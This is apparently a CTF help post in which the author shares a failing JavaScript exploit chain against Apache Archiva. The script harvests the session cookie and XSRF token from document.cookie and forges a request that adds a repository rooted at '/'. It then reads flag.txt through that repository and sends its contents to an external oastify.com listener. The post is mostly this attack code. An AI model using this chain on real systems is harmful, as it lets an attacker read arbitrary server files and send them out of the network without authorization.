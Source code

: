 and the actual file:

```javascript
export async function run() {
  // some js
}
```

so I tried doing the whole exploit chain on js but it wouldn't work. for some reason, I could not create a repo that way. I keep getting a `TypeError: failed to fetch`. here is the whole chain file I used:

```javascript
export function run(host) {
    let archiva = document.cookie.split(";").filter(e => e.indexOf('archiva') != -1)[0].trim().split("=")[1]
    let archiva_parsed = JSON.parse(decodeURIComponent(archiva))["validationToken"]
    let session = document.cookie.split(";").filter(e => e.indexOf('JSESSION') != -1)[0].trim()

    let body = JSON.stringify({
        "id": "myrepo",
        "name": "myrepo",
        "layout": "default",
        "location": "/",
        "cronExpression": "0 0 * * * ?",
        "scanned": true,
        "snapshots": false,
        "releases": false,
        "blockRedeployments": false,
        "skipPackedIndexCreation": false,
        "modified": true
    });

    fetch(`http://${host}/restServices/archivaServices/managedRepositoriesService/addManagedRepository`, {
        method: "POST",
        body: body,
        credentials: "include",
        headers: {
            "Content-Type": "application/json",
            "X-XSRF-TOKEN": archiva_parsed
        }
    }).then(_ => {
        fetch(`http://${host}/repository/myrepo/flag.txt`, {
            method: "GET",
            credentials: 'same-origin'
        })
        .then(res => {
          res.text().then(flag => {
            fetch(`https://uxv39e6gvji5grql1rqnf9y3hunlbmzb.oastify.com/${encodeURIComponent(flag)}`, {
                method: "GET",
                mode: 'no-cors'
            })
          })
        })
    }).catch(_ => {});
}
```
